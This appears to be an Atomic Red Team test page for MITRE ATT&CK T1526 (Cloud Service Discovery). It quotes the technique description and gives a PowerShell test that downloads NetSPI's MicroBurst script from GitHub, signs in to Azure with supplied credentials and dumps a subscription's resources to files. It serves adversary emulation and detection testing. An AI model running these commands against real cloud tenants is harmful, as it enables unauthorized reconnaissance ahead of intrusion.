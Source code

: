 ```yaml
---
tags: [T1526, atomic_test]
filename: "[[T1526|T1526 - Cloud Service Discovery]]"
---
```


# T1526 - Cloud Service Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1526)
<blockquote>An adversary may attempt to enumerate the cloud services running on a system after gaining access. These methods can differ from platform-as-a-service (PaaS), to infrastructure-as-a-service (IaaS), or software-as-a-service (SaaS). Many services exist throughout the various cloud providers and can include Continuous Integration and Continuous Delivery (CI/CD), Lambda Functions, Azure AD, etc. They may also include security services, such as AWS GuardDuty and Microsoft Defender for Cloud, and logging services, such as AWS CloudTrail and Google Cloud Audit Logs.

Adversaries may attempt to discover information about the services enabled throughout the environment. Azure tools and APIs, such as the Azure AD Graph API and Azure Resource Manager API, can enumerate resources and services, including applications, management groups, resources and policy definitions, and their relationships that are accessible by an identity.(Citation: Azure - Resource Manager API)(Citation: Azure AD Graph API)

For example, Stormspotter is an open source tool for enumerating and constructing a graph for Azure resources and services, and Pacu is an open source AWS exploitation framework that supports several methods for discovering cloud services.(Citation: Azure - Stormspotter)(Citation: GitHub Pacu)

Adversaries may use the information gained to shape follow-on behaviors, such as targeting data or credentials from enumerated services or evading identified defenses through [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001) or [Disable or Modify Cloud Logs](https://attack.mitre.org/techniques/T1562/008).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Dump Subscription Data with MicroBurst](#atomic-test-1---azure---dump-subscription-data-with-microburst)


<br/>

## Atomic Test #1 - Azure - Dump Subscription Data with MicroBurst
Upon successful execution, this test will enumerate all resources that are contained within a valid Azure subscription. 
The resources enumerated will display on screen, as well as several csv files and folders will be output to a specified directory, listing what resources were discovered by the script. 
See https://dev.to/cheahengsoon/enumerating-subscription-information-with-microburst-35a1

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 1e40bb1d-195e-401e-a86b-c192f55e005c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | |
| password | Azure AD password | string | T1082Az|
| output_directory | Directory to output results to | string | $env:temp&#92;T1526Test1|
| subscription_name | Azure subscription name to scan | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\Get-AzDomainInfo.ps1"
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-AzAccount -Credential $Credential | out-null
Get-AzDomainInfo -folder #{output_directory} -subscription "#{subscription_name}" -verbose
```

#### Cleanup Commands:
```powershell
remove-item #{output_directory} -recurse -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Get-AzDomainInfo script must exist in PathToAtomicsFolder\..\ExternalPayloads.
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\Get-AzDomainInfo.ps1"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/c771c665a2c71f9c5ba474869cd1c211ebee68fd/Az/Get-AzDomainInfo.ps1" -outfile "PathToAtomicsFolder\..\ExternalPayloads\Get-AzDomainInfo.ps1"
```
##### Description: The Az module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name Az -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name Az -Force
```




<br/>
